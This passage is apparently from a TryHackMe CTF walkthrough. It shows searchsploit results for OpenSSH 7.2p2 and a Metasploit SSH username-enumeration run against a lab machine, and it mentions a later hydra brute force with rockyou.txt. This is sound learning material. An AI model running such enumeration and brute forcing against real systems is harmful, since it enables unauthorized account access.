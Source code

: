 Perhaps it is an indication to use rockyou.txt if we have to brute force with another tool? Looking further we can see there are a number of comments from root, anonymous and www-data, which are all well known and likely to be obvious and on the server somewhere, however around the same timestamp we have a post by meliodas. Perhaps this is a username?

## where to now
Looking at what we know. We have:

1. Possibly two (or 5 if we count the www, root and anonymous) usernames that we are aware of. (Don't worry I counted rockyou as well).
1. Two valid open ports
1. Possible OpenSSH exploit if we can find one.

## searchsploit

Lets have a look and see what we can get.
```
/CTF/tryhackme/library$ searchsploit openssh 7.2p2
-------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                  |  Path
-------------------------------------------------------------------------------- ---------------------------------
OpenSSH 2.3 < 7.7 - Username Enumeration                                        | linux/remote/45233.py
OpenSSH 2.3 < 7.7 - Username Enumeration (PoC)                                  | linux/remote/45210.py
OpenSSH 7.2p2 - Username Enumeration                                            | linux/remote/40136.py
OpenSSH < 7.4 - 'UsePrivilegeSeparation Disabled' Forwarded Unix Domain Sockets | linux/local/40962.txt
OpenSSH < 7.4 - agent Protocol Arbitrary Library Loading                        | linux/remote/40963.txt
OpenSSH < 7.7 - User Enumeration (2)                                            | linux/remote/45939.py
OpenSSHd 7.2p2 - Username Enumeration                                           | linux/remote/40113.txt
-------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
Well we are in luck. Lets look at the username enumeration.
```
msf5 auxiliary(scanner/ssh/ssh_enumusers) > set username meliodas
username => meliodas
msf5 auxiliary(scanner/ssh/ssh_enumusers) > run

[*] 10.10.60.21:22 - SSH - Using malformed packet technique
[*] 10.10.60.21:22 - SSH - Starting scan
[+] 10.10.60.21:22 - SSH - User 'meliodas' found
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
I was pleased as punch with this as when I went to use hydra I was successful. I then went back and checked if the other name was there - rockyou, and to hell with it, I even threw in a jimbob. All came back positive!!! So not sure how successful that was.
